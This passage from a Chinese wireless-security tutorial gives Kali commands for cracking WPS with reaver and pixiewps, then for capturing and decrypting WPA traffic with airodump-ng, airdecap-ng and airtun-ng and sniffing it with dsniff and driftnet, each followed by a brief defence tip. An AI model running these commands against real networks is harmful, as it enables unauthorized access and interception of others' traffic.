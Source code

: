 - 利用reaver的-K参数调用pixiewps快速破解有漏洞的AP:

```bash
root@kali:~# reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -K 1
```

报错参考：[利用 reaver 进行无线安全审计](http://blkstone.github.io/2015/08/19/reaver-tutorial/)

#### 防御

关闭WPS，使用使用复杂密码的WPA/WPA2方式保护无线安全

## 攻击情景——数据监听

### 原理

已知密码以及初始的握手包信息，即可解密密文的流量信息

### 方法

不进入网段内的数据监听，也不用修改路由器本身的配置，不用做端口转发。这里有两种方式监听受保护的无线数据，需要将开启监听模式的网卡放置在需要监听的AP附近，并且知道密码。

#### airdecap-ng离线解密数据

- 首先通过airodump-ng抓取无线流量

```bash
root@kali:~# airodump-ng --bssid 00:11:22:33:44:55 wlan0mon -w test -c 8 
```

- 利用airdecap-ng解密WPA数据包（需已知密码，抓到握手包）

```bash
root@kali:~ airdecap-ng -e xuanxuan -p xuanxunanihao -b 00:11:22:33:44:55 xxx.pcap
```

- 此时会在当前目录下生成新的数据包文件，wireshark即可查看到已经解密的数据了

#### airtun-ng实时解密数据

- 通过airtun-ng将目标AP的数据包实时解密并发送给一个新的网卡at0

```bash
root@kali:~ airtun-ng -a 00:11:22:33:44:55 -p xuanxuannihao -e xuanxuan wlan0mon
root@kali:~ ifconfig at0 up
```

- 利用wireshark等工具，去监听新的at0网卡即可

```bash
root@kali:~ dsniff -i at0
root@kali:~ driftnet -i at0
```

### Kcrack

#### 防御

使用长密码，不易被破解，以防数据被监听
